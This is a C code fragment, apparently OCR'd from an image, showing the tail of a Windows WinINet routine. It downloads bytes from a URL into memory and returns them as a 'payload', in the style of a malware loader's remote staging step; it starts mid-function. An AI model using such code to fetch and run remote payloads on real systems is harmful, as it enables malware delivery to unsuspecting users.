 ```c
	}


	hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL){
		printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}


	pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
	if (pTmpBytes == NULL){
		bSTATE = FALSE; goto _EndOfFunction;
	}

	while (TRUE){

		if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
			printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
			bSTATE = FALSE; goto _EndOfFunction;
		}

		sSize += dwBytesRead;

		if (pBytes == NULL)
			pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
		else
			pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);

		if (pBytes == NULL) {
			bSTATE = FALSE; goto _EndOfFunction;
		}
		
		memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
		memset(pTmpBytes, '\0', dwBytesRead);

		if (dwBytesRead < 1024){
			break;
		}
	}
	


	*pPayloadBytes = pBytes;
	*sPayloadSize  = sSize;

_EndOfFunction:
	if (hInternet)
		InternetCloseHandle(hInternet);
	if (hInternetFile)
		InternetCloseHandle(hInternetFile);
	if (hInternet)
		InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
	if (pTmpBytes)
		LocalFree(pTmpBytes);
	return bSTATE;
}
```
